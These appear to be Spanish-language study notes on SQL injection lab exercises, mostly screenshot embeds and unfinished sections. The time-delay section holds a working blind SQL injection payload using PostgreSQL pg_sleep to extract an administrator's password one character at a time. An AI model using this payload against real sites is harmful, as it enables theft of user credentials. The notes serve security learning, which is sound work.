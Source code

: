 # Inyección SQL visible basada en errores

![[Pasted image 20240820233242.png]]
![[Pasted image 20240820233330.png]]

# Inyección SQL ciega con retrasos de tiempo

Falta

# Inyección SQL ciega con retrasos temporales y recuperación de información

![[Pasted image 20240823011419.png]]
![[Pasted image 20240823011432.png]]
![[Pasted image 20240823011524.png]]
![[Pasted image 20240823011540.png]]
![[Pasted image 20240823011953.png]]
![[Pasted image 20240823012004.png]]
![[Pasted image 20240823012142.png]]
![[Pasted image 20240823012206.png]]
![[Pasted image 20240823012439.png]]
```
%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
```
![[Pasted image 20240823012834.png]]
![[Pasted image 20240823013339.png]]
![[Pasted image 20240823013508.png]]
![[Pasted image 20240823014637.png]]
![[Pasted image 20240823014651.png]]

# Inyección SQL ciega con exfiltración de datos fuera de banda

Falta

# Inyección SQL con omisión de filtros mediante codificación XML

Falta

